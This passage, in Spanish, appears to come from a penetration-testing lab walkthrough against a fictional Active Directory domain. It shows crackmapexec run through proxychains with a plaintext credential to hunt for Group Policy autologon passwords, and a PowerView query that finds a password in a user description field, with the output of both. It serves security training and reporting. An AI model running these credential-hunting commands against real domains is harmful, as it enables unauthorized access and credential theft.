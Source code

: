 Encontramos una contraseña válida para dos usuarios más, pero ninguno tiene acceso interesante. Aun así, vale la pena anotar un hallazgo para `Weak Active Directory Passwords` permitidas y seguir adelante.

---

## Misc Techniques

Probemos algunas cosas más para cubrir todas nuestras bases. Podemos buscar en el share SYSVOL archivos `Registry.xml` que puedan contener contraseñas para usuarios configurados con autologon a través de Group Policy.

  Share Hunting

```r
proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86! 
GPP_AUTO... 172.16.8.3      445    DC01             [+] Found SYSVOL share
GPP_AUTO... 172.16.8.3      445    DC01             [*] Searching for Registry.xml
```

Esto no muestra nada útil. Sigamos adelante, podemos buscar contraseñas en los campos `Description` de los usuarios en AD, lo cual no es muy común, pero aun así lo vemos de vez en cuando (¡Incluso he visto contraseñas de cuentas Domain y Enterprise Admin aquí!).

  Share Hunting

```r
PS C:\DotNetNuke\Portals\0> Get-DomainUser * |select samaccountname,description | ?{$_.Description -ne $null}

samaccountname description
-------------- -----------
Administrator  Built-in account for administering the computer/domain
frontdesk      ILFreightLobby!
Guest          Built-in account for guest access to the computer/d...
krbtgt         Key Distribution Center Service Account
```

Encontramos una para la cuenta `frontdesk`, pero esta tampoco es útil. Vale la pena notar que hay muchas maneras de obtener una contraseña de cuenta de usuario en este dominio, y hay un host con privilegios RDP otorgados a todos los usuarios del dominio. Aunque estas cuentas no tienen ningún derecho especial, sería una prioridad que el cliente solucione estos problemas porque un atacante a menudo solo necesita una contraseña para tener éxito en AD. Aquí podemos anotar un hallazgo para `Passwords in AD User Description Field` y continuar.

---